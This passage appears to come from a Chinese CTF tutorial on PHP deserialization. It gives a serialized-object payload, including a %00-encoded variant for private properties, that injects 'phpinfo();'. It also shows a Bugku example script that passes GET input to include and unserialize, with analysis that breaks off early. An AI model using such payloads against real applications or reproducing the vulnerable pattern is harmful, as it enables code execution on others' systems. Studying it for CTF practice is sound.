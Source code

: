 ```php
O:7:"M0c1nu7":1:{s:13:" M0c1nu7 test";O:4:"Evil":1:{s:5:"test2";s:10:"phpinfo();";}}
```

注意：`$test`是私有方法，传入反序列化字符的时候，应该在前面的类名两侧加上`%00`，payload如下：

```php
?str=O:7:"M0c1nu7":1:{s:13:"%00M0c1nu7%00test";O:4:"Evil":1:{s:5:"test2";s:10:"phpinfo();";}}
```

例题:

```php
<?php  

$txt = $_GET["txt"];  

$file = $_GET["file"];  

$password = $_GET["password"];  

if(isset($txt)&&(file_get_contents($txt,'r')==="welcome to the bugkuctf")){  

    echo "hello friend!<br>";  

    if(preg_match("/flag/",$file)){ 

        echo "不能现在就给你flag哦";

        exit();  

    }else{  

        include($file);   

        $password = unserialize($password);  

        echo $password;  

    }  

}else{  

    echo "you are not the number of bugku ! ";  

}  

?>
```

代码有点长我们先来分析一下这串代码想表达什么
1.先`GET`传入参数`$txt`、`$file`、`$password`
2.判断`$txt`是否存在，如果存在并且值为`welcome to the bugkuctf`就进一步操作，`$file`参数里面不能包含`flag`字段
3.通过以上判断就`include($file)`，再将`$password`反序列化并输出
